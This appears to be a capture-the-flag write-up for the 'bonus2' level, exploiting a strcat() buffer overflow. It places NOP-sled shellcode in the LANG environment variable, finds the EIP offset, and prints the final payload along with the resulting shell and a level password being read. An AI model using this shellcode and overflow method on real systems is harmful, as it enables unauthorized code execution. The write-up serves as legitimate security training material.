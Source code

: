 # bonus2

`strcat()` is vulnerable to buffer overflow: we're gonna use this.  

We just have to write the shellcode in the buffer and overflow the pointer with the shellcode's address, which is by now pretty usual.  
But due to a pointer that kept changing address (even though ...), I wasn't able to use my first, 'usual' solution.  

I tried the same idea but with another method, which is to inject the shellcode directly in an environment variable, `LANG` in this case.  
We just have to retrieve its address :

```sh
$> gdb -q bonus2
(gdb) b main
Breakpoint 1 at 0x804852f
(gdb) r
Starting program: /home/user/bonus2/bonus2 

Breakpoint 1, 0x0804852f in main ()
(gdb) x/32s *((char **)environ)
[...]
0xbffffe4f:	 "LANG=en"
[,,,]
```

We can set our environment variable which consists of the value `nl`, no-ops and the shellcode.

```sh
$> export LANG="nl"$(python -c 'print("\x90"*100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*100)')
```

As we can see on the code, we have a 72 bytes buffer, 40 are copied from `argv[1]` and 32 from `argv[2]`.  
With a [pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), we can overflow the buffer to find `eip` offset.  
We find `23` with current configuration.  

We can finally create our payload :

```sh
$> ./bonus2 $(python -c 'print("\x90"*40)') $(python -c 'print("\x90"*23 + "\x4f\xfe\xff\xbf")')
Goedemiddag! ??????????????????????????????????????????
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587

